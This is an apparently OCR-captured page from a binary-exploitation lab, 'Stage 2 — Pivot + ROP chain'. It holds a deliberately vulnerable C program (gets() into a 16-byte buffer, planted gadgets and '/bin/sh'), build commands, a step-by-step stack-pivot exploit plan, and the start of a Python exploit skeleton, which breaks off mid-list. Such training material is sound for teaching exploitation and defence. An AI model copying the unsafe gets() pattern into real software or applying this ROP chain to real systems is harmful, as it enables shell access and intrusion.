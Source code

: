```c
#include "common.h"
#include <stdint.h>
#include <malloc.h>

extern void gadget_leave_ret(void);
extern void gadget_pop_rdi_ret(void);

static const char BINSH[] = "/bin/sh";
int call_system(const char* s){ return system(s); }

__attribute__((noinline)) void vuln(){
  // tiny stack buf forces pivot attack style
  char small[16];
  void* pivot = malloc(0x200);
  PROMPT("stage2> input: ");
  // layout we expect attacker to write:
  // [padding..][new RBP][pivot_addr][gadget_leave_ret]
  gets(small);
  (void)pivot; // keep it from optimizing away
}

int main(){
  banner("Stage 2 — Pivot + ROP chain");
  vuln();
  puts("done\n");
  return 0;
}
```

### Build & symbols

```bash
make stage2
nm -n stage2 | egrep ' BINSH| call_system$| gadget_pop_rdi_ret$| gadget_leave_ret$'
```

### Exploit sketch (stage 2)

The idea is:

1. Overwrite saved RBP with address of **heap pivot buffer** (which you will also fill via a second write or a long input that spills over).
2. Overwrite return address with `gadget_leave_ret`.
3. The `leave` sets `RSP=RBP` (your heap) and `RBP=[RSP]; ret` jumps into your chain living on heap.
4. Heap chain begins with `pop rdi; ret`, then pointer to `BINSH`, then `call_system`.

A minimal helper (pseudo‑exploit):

```python
# exploit_stage2.py (skeleton)
import struct, subprocess, re, sys
nm = subprocess.check_output(["nm","-n","stage2"]).decode()
syms = {m.group(2):int(m.group(1),16) for line in nm.splitlines()
        if (m:=re.match(r"^([0-9a-fA-F]+)\s+[A-Za-z]\s+(\S+)$", line))}

pop_rdi = syms['gadget_pop_rdi_ret']
leave_ret = syms['gadget_leave_ret']
call_sys = syms['call_system']
binsh = syms['BINSH']

OFFSET = 24  # toy value; confirm in gdb (16 bytes buf + saved RBP + RET)

# Fake "heap" chain we pretend to land on, beginning with next RBP
pivot_chain = [
```